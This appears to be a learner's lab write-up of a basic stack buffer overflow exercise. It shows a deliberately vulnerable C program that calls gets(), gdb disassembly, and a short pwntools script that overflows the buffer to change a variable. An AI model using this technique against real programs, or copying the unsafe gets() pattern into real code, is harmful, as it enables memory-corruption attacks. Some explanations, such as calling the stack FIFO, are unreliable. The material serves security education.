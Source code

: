 # Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- We have 2 variables *modified* and *buffer* which are created in the stack.
- *modified* is an integer that the program checks to see if it's been altered unexpectedly. The `volatile` keyword is used to tell the compiler not to optimize this variable, as its value could be changed unexpectedly or arbitrarily.
- The *gets()* function is used -- input is loaded into buffer using *gets()*
- *gets()* is dangerous as it can be easily abused for buffer over flow.
- This is because *gets()* doesn't have a check for the number of inputs given in the stack, and it keep receiving input until the stack crashes -- which of course leads to stack buffer overflow.
- Knowing this we can overwrite the memory region where the *modified* variable is stored.

# Investigating further

**Running `man gets` 
![[Pasted image 20240709223941.png]]
![[Pasted image 20240709224151.png]]

# The stack

#### EIP (Instruction Pointer)

The EIP register holds the memory address of the next instruction to be executed. It is not stored on the stack itself, but rather it is an architectural register in the CPU. **The EIP is used to keep track of the currently executing code.**

#### ESP (Stack Pointer)

The ESP register points to the top of the stack, which is the most recently pushed value. It is not directly stored on the stack, but it holds the memory address of the top of the stack. **ESP is used to access and manipulate data on the stack.**

#### EBP (Base Pointer)

The EBP register is used as a reference point for accessing local variables and function arguments on the stack. It is typically set to the value of ESP at the beginning of a function, providing a stable base address for referencing stack data. **EBP is pushed onto the stack when a function is called, and it is popped off when the function returns.**


- First the *modified* variable gets created, i.e. it gets pushed onto the stack(FIFO).
- Then the *buffer* which is an array of 64 characters gets created.
- *modified* variable gets pushed down to the stack.


# Disassembly 
We are going to disassemble our binary using *gdb/gef*

![[Pasted image 20240709233340.png]]

# Disassembling the main function
```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x0000000000001149 <+0>:	push   rbp
   0x000000000000114a <+1>:	mov    rbp,rsp
   0x000000000000114d <+4>:	sub    rsp,0x60
   0x0000000000001151 <+8>:	mov    DWORD PTR [rbp-0x54],edi
   0x0000000000001154 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x0000000000001158 <+15>:	mov    DWORD PTR [rbp-0x4],0x0
   0x000000000000115f <+22>:	lea    rax,[rbp-0x50]
   0x0000000000001163 <+26>:	mov    rdi,rax
   0x0000000000001166 <+29>:	mov    eax,0x0
   0x000000000000116b <+34>:	call   0x1040 <gets@plt>
   0x0000000000001170 <+39>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000001173 <+42>:	test   eax,eax
   0x0000000000001175 <+44>:	je     0x1188 <main+63>
   0x0000000000001177 <+46>:	lea    rax,[rip+0xe8a]        # 0x2008
   0x000000000000117e <+53>:	mov    rdi,rax
   0x0000000000001181 <+56>:	call   0x1030 <puts@plt>
   0x0000000000001186 <+61>:	jmp    0x1197 <main+78>
   0x0000000000001188 <+63>:	lea    rax,[rip+0xea2]        # 0x2031
   0x000000000000118f <+70>:	mov    rdi,rax
   0x0000000000001192 <+73>:	call   0x1030 <puts@plt>
   0x0000000000001197 <+78>:	mov    eax,0x0
   0x000000000000119c <+83>:	leave
   0x000000000000119d <+84>:	ret
End of assembler dump.
gef➤  

```

The `modified` variable and the buffer are separate variables in the program. However, due to the way memory is organized in the stack, these variables are located next to each other. When the `gets` function is called to read input into the buffer, and if the input is longer than the size of the buffer, it will overflow into the memory space of the `modified` variable, effectively changing its value.

- We are going to set **2** breakpoints before and after the **gets()** function to see what registers have changed.
```
gef➤  break *0x000000000000116b
Breakpoint 1 at 0x116b
gef➤  break *0x0000000000001170
Breakpoint 2 at 0x1170
```
- The first breakpoint is set at the **gets()** function.
- The second breakpoints is set at the instruction that loads the value of the **modified** variable.
- Doing the above, we will get an idea on where the data on the stack is stored.


# Using pwntools to exploit the binary

```
from pwn import *

# Establish a process to the binary
p = process('/opt/exploitdev/stacked')

# Create the payload
# The 'A'*80 will overflow the buffer and modify the 'modified' variable
payload = ('A'*80).encode()

# Send the payload
p.sendline(payload)

# Receive the output
output = p.recvline()

# Print the output
print(output)

# Close the process
p.close()

```

![[Pasted image 20240710130427.png]]

Thank you.